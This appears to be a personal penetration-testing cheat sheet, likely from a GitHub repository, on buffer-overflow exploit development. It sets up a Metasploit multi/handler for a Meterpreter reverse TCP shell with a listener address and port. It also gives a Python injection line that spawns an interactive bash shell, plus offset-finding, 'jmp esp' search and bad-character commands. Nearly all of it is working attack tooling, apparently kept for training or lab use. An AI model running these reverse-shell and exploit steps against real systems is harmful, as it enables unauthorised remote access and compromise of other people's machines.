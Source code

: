 ## dep bypass payload
- `windows/meterpreter/reverse_nonx_tcp`

## multi handler
```
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set AutoRunScript post/windows/manage/migrate
set lhost 10.10.12.102
set lport 9001
exploit
```
--- 

# misc
## python injected shell
- `__builtins__.__import__('os').system('/bin/bash -i')`

# exploit development
## finding offset
### gef
- `pattern create 128`
- `pattern search 0x6161616`

### msf
- `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1000`
- `/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q <EIP-Content>`

### pwntools
```python3
from pwn import *
# n = 4 == 32Bit; n = 8 == 64 Bit
cyclic(128, n=4)
cyclic_find('6161616', n=4)
Where 61616161 = value not address
```

# find "jmp esp" with mona.py
- `!mona find -type instr -s "jmp esp" -m <DLL>`

# list of bad characters
```python
b'\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff'
```
